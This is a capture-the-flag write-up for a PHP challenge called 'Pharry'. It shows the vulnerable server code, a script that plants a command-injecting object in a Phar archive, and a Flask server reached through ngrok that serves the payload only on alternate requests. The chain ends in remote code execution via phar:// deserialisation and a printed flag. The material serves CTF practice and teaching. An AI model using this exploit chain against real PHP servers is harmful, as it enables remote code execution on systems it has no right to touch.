


## Pharry  



We are given a relatively minimal PHP server.  

The chall name as well as the implementation of an unused `User` class clearly hint towards a Phar deserialisation RCE vuln. The `User` class destructor directly injects the `avatar_path` attribute in a `rm` call, giving us a command injection vector.   

The server requires us to supply a file path, which it will fetch and run `md5_file()` on. If `md5_file()` returns `FALSE`, it will then write the contents to `/tmp/remote_file.jpg`.  

If we are able to somehow cause a mismatch between `md5_file()` and `file_get_contents()`, we will be able to upload a malicious Phar archive into `/tmp/remote_file.jpg`, which we can deserialise in a second request.  

```php
<?php
class User {
    public $avatar_path;
    public $name;
    // who cares
    public $password;
    function __construct($name, $password) {
        $this->name = $name;
        $this->password = $password;
        $this->avatar_path = "avatars/".$name.".png";
        //todo fill the avatar with something meaningful
        system("touch ".$this->avatar_path);
    }
    function __destruct() {
        system("rm ".$this->avatar_path);
    }
}


$file = $_GET['path'];
$res = md5_file($file);
if ($res == FALSE){
    file_put_contents("/tmp/remote_file.jpg",file_get_contents($file));
    // everything is a image if you look at it long enough
    $res = md5_file("/tmp/remote_file.jpg");
}
if ($res == 0xdeadbeef){
    echo "Congratulations! Here is not your flag: ".file_get_contents("flag.txt");
} else{
    echo $res;
}
?>
```

The deserialisation part is pretty straightforward. We serialise a malicious `User` object that performs the command injection on destruction, then inject it as metadata into a Phar archive.  

```php
<?php

class User {
    public $avatar_path;
    public $name;
    public $password;
}

$filename = 'payload.phar';
@unlink($filename);

$phar = new Phar($filename);
$phar->startBuffering();

$phar->setStub("__HALT_COMPILER();");
$phar->addFromString('a', '');

$user = new User();
$user->name = $user->password = "a";
$user->avatar_path = "; ls";

$phar->setMetadata($user);

$phar->stopBuffering();

?>
```

The tricky part is getting a desync between `md5_file()` and `file_get_contents()`.  

`md5_file()` supports the `http://` wrapper, meaning we can actually pass in remote URLs under `path`. This also means we can server the payload file from an attacker server we control.  

To bypass the check, we can host a Ngrok server that only serves the payload every two requests. This means that the first `md5_file()` call will catch an error, triggering the `file_get_contents()` branch, which will successfully retrieve our actual payload.  

```python
from flask import Flask, send_file, abort

app = Flask(__name__)

count = 0

@app.route("/")
def index():
    global count

    count += 1

    if count % 2:
        print("> Rejecting")
        abort(404)

    print("> Serving payload")

    return send_file('payload.phar', as_attachment=True)

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=6767)
```

```sh
python server.py
ngrok http 6767
```

After passing in our Ngrok server URL and uploading the Phar payload, we can then deserialise it with `phar:///tmp/remote_file.jpg/a` to get RCE.  

Through some probing, we will locate the flag file in root.  



Flag: `GPNCTF{We8_is_foR_weeBs_AND_Sucks_php_IS_c001_70UgH}`